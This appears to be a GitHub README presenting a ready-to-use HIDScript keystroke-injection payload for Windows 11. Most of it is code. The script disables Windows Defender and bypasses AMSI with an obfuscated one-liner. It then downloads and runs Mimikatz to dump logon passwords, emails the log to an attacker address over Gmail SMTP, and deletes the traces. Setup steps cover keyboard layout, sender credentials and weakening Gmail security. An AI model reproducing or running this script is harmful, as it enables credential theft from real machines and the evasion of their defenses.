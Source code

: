 ## Credentials - Mimikatz + Send Result to Mail

### Description

This is a simple HIDScript that disable windows defender, run Mimikatz (logonPasswords) and save the result to log.
Then it send to your mail the log as attachment, delete Mimikatz and log files and finally re-enable windows defender.

### Requirement

1. First note this script has been created and tested under Windows 11 Build 22000 and that i give the full path of "Windows Security" to disable Windows Defender. You may need to change the path according to you.

2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

3. Change the sender e-mail/password and set the attacker email that will receive the mail with the Mimikatz log attached to.

4. To deliver the mail, you need first to allow less secure app to access you'r Gmail account. To do this you need first to disable 2FA, then enable less secure app (<a href="https://myaccount.google.com/lesssecureapps">direct link</a>). I suggest to create a Gmail account only for this purpose, instead of using you'r personal account if you are using Gmail. As you need to disable 2FA it expose you'r account.



### Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("C:/Program Files/WindowsApps/Microsoft.SecHealthUI_1000.22000.1.0_neutral__8wekyb3d8bbwe/SecHealthUI.exe")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir mimi")
press("ENTER")
delay(500)
type("Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi")
press("ENTER")
delay(1500)
type("cd mimi")
press("ENTER")
delay(500)
type("cd x64")
press("ENTER")
delay(500)
type(".\\mimikatz.exe")
press("ENTER")
delay(1000)
type("log log.txt")
press("ENTER")
delay(1000)
type("privilege::debug")
press("ENTER")
delay(1000)
type("sekurlsa::logonPasswords")
press("ENTER")
delay(1000)
type("exit")
press("ENTER")
delay(1000)
type("$emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)")
press("ENTER")
delay(2000)
type("cd /")
press("ENTER")
type("rmdir mimi")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del mimikatz_trunk.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")

```